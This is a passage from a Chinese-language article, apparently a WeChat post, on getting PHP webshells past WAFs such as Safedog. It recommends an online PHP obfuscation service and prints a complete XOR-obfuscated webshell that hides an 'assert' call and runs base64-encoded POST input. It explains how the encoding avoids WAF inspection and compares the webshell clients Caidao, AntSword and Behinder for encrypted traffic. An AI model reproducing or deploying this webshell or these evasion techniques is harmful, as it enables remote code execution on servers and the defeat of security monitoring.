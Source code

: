 参考命令:D:\phpStudy\PHPTutorial\php\php-5.4.45\php.exe code_test.php

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ3NA9iapl9Vz4W35XdC2EP0J95rnpNbuSFDastOMn75oYdHYn4bEibicPw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**WAF** **依然绕过** **safedog**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQlKGk5kAOiay6URYnBicqEtBZOnicfgkpYhicfvcvG0TcWMCM8tiaR7J84icg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**利用****:**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ5icxOgxDrfZdZPxic8ovvM32HJm8ILVzdcKOZROiaP2fdexiamAQCYcnFg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**⑤借用在线 API 接口实现加密混淆**

***\*思路\**\**:\** \**一旦上面的加密混淆过不了安全狗或者\** \**BT\** \**等其它防护工具时，可以借助网上在线\** \**API\** \**接口进行实现加密混淆\**** 

***\*网址：\** http://phpjiami.com/phpjiami.html**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQyOicicH9uCph5APsoLGkS5pm1McCFKDNJtv8wspKLIn52Cyly8S3MDdQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**⑥****异或加密 Webshell-venom** 

**思路：** 同样也是进行混淆代码，只是与前面两者不同，该方法利用的是异或加密，不断随机的产生 不同的代码

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ6z2baoCw28SKV2qYwabGdickG42nL3tXuibrpsMrCwRH1wFVHyZj7TFw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**生成代码如下：** <?php class CEKF{ function __destruct(){ $SPOE='gK$JP>'^"\x6\x38\x57\x2f\x22\x4a"; return @$SPOE("$this->ZDFP"); } }$cekf=new CEKF(); @$cekf->ZDFP=isset($_GET['id'])?base64_decode($_POST['mr6']):$_POST[' mr6']; ?>



**利用：** 

通过简单观察代码可以发现存在三目运算符，所以当存在 id=1 时，就会使用 base64_decode 解码操作，又因为有 WAF 的存在，不能直接传入敏感字段，所以在 mr6 就进行 base64 编码 形式

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQS2JPGuicPZWick8atdwtJ9Syricf0AdZPaSPxXSCONkWZsnLjiaiaG2ZNFA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

**权限软件** 

**菜刀，蚁剑，冰蝎优缺点** 菜刀：未更新状态，无插件，单向加密传输 蚁剑：更新状态，有插件，拓展性强，单向加密传输 冰蝎：更新状态，未知插件，双向加密传输

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQXG9ghico3iaSI28ibeibIRFXKFF1gictQibPt52sc2t6RZepO2uR1e3uyudw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



单双向加密传输的区别： 双向加密传输就是发包之前已经加密了，并且从服务器传回来的数据也是加 密的，这样在安全狗这些 WAF 检测内容的时候就狠 nice。

**
**
